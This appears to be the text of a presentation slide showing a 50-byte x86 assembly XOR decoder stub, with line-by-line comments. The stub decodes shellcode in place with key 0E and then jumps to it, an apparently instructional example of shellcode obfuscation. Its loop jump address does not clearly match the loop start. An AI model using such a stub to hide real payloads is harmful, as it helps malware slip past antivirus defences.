

# CC 2
XOR STUB (only 50 bytes long)
MOV EAX, 00445CDE           Place the starting address of shellcode to EAX.
XOR BYTE PTR DS:[EAX],0E      Exclusive OR the contents of EAX with key 0E
INC EAX                                   Increase EAX to move to next addresses
CMP EAX, 00445e36               Compare EAX with the ending address of shellcode
JLE SHORT 00479733               If they are not equal, take a short jump back to XOR
JMP 00445CDE                        if they are equal jump to shellcode start